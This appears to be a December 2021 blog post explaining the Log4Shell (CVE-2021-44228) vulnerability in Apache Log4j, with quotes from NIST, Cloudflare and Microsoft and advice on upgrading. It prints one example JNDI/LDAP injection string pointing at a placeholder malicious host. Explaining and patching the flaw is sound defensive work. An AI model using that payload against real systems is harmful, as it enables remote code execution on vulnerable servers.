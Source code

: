 ```yaml
---
title: Zero-Day Exploits: Log4J
date: Tue, 14 Dec 2021 16:04:00 +0000
---
```

LOG4J also referred to as "Log4shell," is a severe and critical zero-day vulnerability’s found widely in the Java logging library Apache Log4j which is used in many software solutions including Apache, Apple iCloud, Minecraft, etc, and is easy to exploit and enables attackers to gain unauthenticated, remote code execution, install crypto miners, allow botnet services to, etc. "Earliest evidence we've found so far of [the] Log4j exploit is 2021-12-01 04:36:50 UTC" according to Cloudflare CEO Matthew Prince. The Zero-day vulnerability is triggered when a specially crafted string supplied by a malicious actor through different input vectors is processed by the Log4J component. The string contains "jndi" which refers to the Java Naming and Directory Interface. Protocols, such as "ldap", "ldaps", "rmi", "dns", "iiop", or "http", precedes the attacker domain.What is the Apache Log 4j2 JNDI Vulnerability?From the NIST National Vulnerability Database: "Apache Log4j2 <=2.14.1 JNDI features used in the configuration, log messages, and parameters do not protect against attacker-controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled. From log4j 2.15.0, this behavior has been disabled by default.”An Example of the attack would be:

${jndi:ldap://[malicious site]/<script>}

"The bulk of attacks that Microsoft has observed at this time has been related to mass scanning by attackers attempting to thumbprint vulnerable systems, as well as scanning by security companies and researchers." according to the Microsoft 365 Defender Threat Intelligence Team. The severe vulnerability has been scored a 10 on the CVSS score chart. What are the mitigation or remediation techniques?It is important to upgrade the Apache Log from version 2.14.1 to version 2.15.0 immediately or as soon as possible. As of today the latest version is 2.16.0 and it disables “jndi” by default.   Huntress Labs have created a tool to help you test whether your applications are vulnerable to CVE-2021-44228. "Please note that this tool is intended for testing purposes only and should only be used on systems you're authorized to test. If you find any vulnerabilities, please follow responsible disclosure guidelines." Link to the TOOLA Compiled Log4j library resource from NCSC- NL.  GitHub References: https://logging.apache.org/log4j/2.x/security.html https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/